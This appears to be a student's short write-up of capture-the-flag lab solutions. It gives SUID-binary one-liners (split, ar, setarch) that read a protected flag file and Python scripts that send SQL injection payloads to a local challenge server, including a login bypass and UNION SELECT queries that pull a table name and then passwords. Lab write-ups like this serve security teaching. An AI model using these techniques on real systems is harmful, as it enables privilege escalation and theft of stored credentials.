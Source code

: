 # Lab 2

## SUID Exploitation

* Level 16

```bash
split /flag

cat xaa
```


* Level 21 

``` bash
ar r inter /flag

cat inter
```
* Level 30 

``` bash
setarch --uname-2.6 cat /flag
```
## SQLi 

* Level 3 
``` python 
import requests 

URL = "http://challenge.localhost:80/?user=1" 

r = requests.get(url = URL) 

print(r.content)
```

* Level 4
``` python
import requests 

form = { "username" : 'flag" --', "password" : "idk", } 

response = requests.post("http://challenge.localhost/", data=form) 

print(response,"\n",response.text)
```

* Level 6

``` python
import requests 

params = {"query": '" UNION SELECT tbl_name from sqlite_master --'} 

response = requests.post("http://challenge.localhost/", params=params) 

t_name = response.text.strip()

params = {"query": f'" UNION SELECT password from {t_name} --' }

response = requests.post("http://challenge.localhost/", params=params) 

print(response.text.strip())
```
